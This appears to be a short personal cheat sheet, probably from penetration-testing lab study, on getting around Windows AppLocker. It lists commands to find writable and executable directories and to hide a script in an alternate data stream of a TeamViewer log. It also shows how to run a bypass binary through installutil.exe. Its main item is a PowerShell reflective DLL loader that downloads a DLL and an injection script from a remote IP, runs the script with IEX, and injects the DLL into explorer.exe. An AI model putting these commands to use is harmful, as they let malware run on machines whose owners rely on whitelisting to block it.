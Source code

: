 # Look for perms


- https://www.g0dmode.biz/active-directory-enumeration/applocker-enumeration

- Search for writable directories
```cmd
accesschk.exe "student" C:\Windows -wus
```
- Search for executable directories:
```cmd
icacls.exe C:\Windows\Tasks
```

- alternate data streams
```
type test.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```

- psh language modes:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\Bypass.exe
```

- reflective dll loader, put this in bypass.exe
```
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.192/bruh.dll')
(New-Object System.Net.WebClient).DownloadString('http://192.168.45.192/Invoke-ReflectivePEInjection.ps1') | IEX
$procid = (Get-Process -Name explorer).Id
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

- check if applocker blocking:
```
`Get-WinEvent -LogName "Microsoft-Windows-AppLocker/MSI and Script" -MaxEvents 10`
```